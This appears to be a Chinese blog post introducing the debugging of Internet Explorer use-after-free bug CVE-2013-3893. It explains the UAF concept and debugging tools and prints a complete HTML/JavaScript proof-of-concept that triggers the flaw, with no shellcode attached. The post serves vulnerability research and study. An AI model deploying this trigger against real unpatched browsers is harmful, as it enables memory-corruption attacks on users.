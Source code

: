 ```yaml
---
title: "IE漏洞调试之CVE-2013-3893"
date: 2014-12-12T09:13:30+08:00
draft: true
categories: ["调试逆向"]
tags: ["调试逆向"]
topics: ["调试逆向"]
---
```


### 前言

Windows平台的漏洞挖掘和安全研究中，IE始终是绕不开的话题。IE漏洞就跟adobe系列一样经典，是学习exploit、shellcode的绝佳途径。
在IE漏洞中，UAF即Use-After-Free是最为经典的一类。UAF可以这样简单理解：A先后调用B、C、D三个子函数，B会把A的某个资源释放掉；而D由于判断不严谨即使在B把A的资源释放后依然去引用它，比如某个指针，这时D引用了很危险的悬空指针；C是个什么角色呢？我们可以通过B分配数据。所以利用方法来了：构造奇葩的数据，让A调用B，B把A的某个指针释放掉；接着执行C，C赶紧分配内存，企图使用刚才释放掉的内存，同时我们可以控制这个内存；最后D被调用，由于检查不严格调用了已经释放掉的某指针，而该指针实际上已经被我们重用并且扭曲。漏洞被利用。



但是学习IE的资料非常少，已知的大都是大牛们逆向mshtml.dll来的，辛辛苦苦得来的东西也不方便马上透露出来，所以自力更生是很重要的。我们希望了解IE运行机制，自己fuzz并找到有价值的漏洞。与此同时，能够调试已公布的漏洞，学习已有的POC，也是很重要的能力。所以这里选择CVE-2013-3893这个经典的UAF来学习IE漏洞的调试。

### 工具

windbg、ida、各版本IE程序、xp/vista/win7/win8虚拟机
windbg用于动态调试；IDA用于静态分析mshtml.dll——实现IE解释器的dll；各版本IE和windows是必不可少的。

### 基础知识

出现一个新的漏洞，涉及到的解析过程我们并不一定分析过，所以分析漏洞的同时也是学习浏览器机制的好机会。比如CVE-2013-3893这个漏洞，我们需要了解CTreeNode和元素的关系以及几个关键的函数实现。具体的结合POC和调试过程分析。

POC
```
<html>
<script>
function trigger()
{
	Math.tan(3,4);
	var id_0 = document.createElement("sup");
	var id_1 = document.createElement("audio");
	Math.sin(0);
	document.body.appendChild(id_0);
	document.body.appendChild(id_1);
	Math.cos(0);
	id_1.applyElement(id_0);
	Math.tan(3,4);
	id_0.onlosecapture=function(e){
		document.write("");
	}
	Math.sin(0); 
	id_0['outerText']="";
	Math.cos(0);
	id_0.setCapture();
	Math.tan(3,4);
	id_1.setCapture();
	Math.sin(0);
}
window.onload = function() {
	trigger();
}
</script>
</html>
```
